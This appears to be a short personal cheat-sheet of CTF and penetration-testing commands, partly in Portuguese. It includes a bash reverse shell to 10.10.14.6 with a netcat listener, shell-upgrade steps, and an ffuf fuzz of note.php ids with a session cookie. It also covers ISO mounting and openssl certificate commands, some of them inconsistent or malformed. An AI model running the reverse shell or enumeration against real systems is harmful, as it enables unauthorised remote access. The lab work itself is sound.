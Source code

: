 #### Basic rev shell
```bash
# On guest
$ bash -c 'bash -i >& /dev/tcp/10.10.14.6/4545 0>&1'

# On host
nc -nv 10.10.14.6 4545
```
#### Upgrade a rev shell
```sh
$ python -c 'import pty; pty.spawn("/bin/bash")'
# ou
$ /usr/bin/script -qc /bin/bash /dev/null
^Z

$ stty raw -echo; fg
$ stty rows 50 columns 200
$ export TERM=linux
$ exec /bin/bash
```
#### Fuff ID enumeration
```sh
$ ffuf -u 'http://172.16.11.37/note.php?id=FUZZ' -b 'PHPSESSID=hurcb449m5j5sl7o49d2hu5nk9' -w <(seq 1 107)
```
#### Mount a image on Linux
```sh
$ sudo mkdir /mnt/mountpoint
$ sudo mount -o loop ./chal_tiny_usb.iso /mnt/mountpoint
```
#### Certificado auto assinado
```sh
$ vim /etc/ssl/openssl.cnf
[ wsc.local ]
subjectAltName = DNS:www.wsc.local

$ openssl genrsa -aes128 2048 > server.key 
$ openssl rsa -in server.key -out server.key 

# Removendo a senha da chave
$ openssl rsa -in server.key -out server.key

# Criando a requisição(CSR)
$ openssl req -utf8 -new -key server.key -out server.csr

# Assinando o certificado
$ openssl x509 -in server.csr -out server.crt -req -signkey server.key -extfile /etc/ssl/openssl.cnf -extensions srv.world -days 3650
```
#### Testa se uma chave pertence ao certificado
```sh
$ openssl x509 -noout -modulus -in /etc/ssl/ldap/ldap.crt | openssl md5 openssl rsa -noout -modulus -in /etc/ssl/ldap/ldap.key | openssl md5
```




openssl s_client -showcerts -connect 10.0.10.10:443










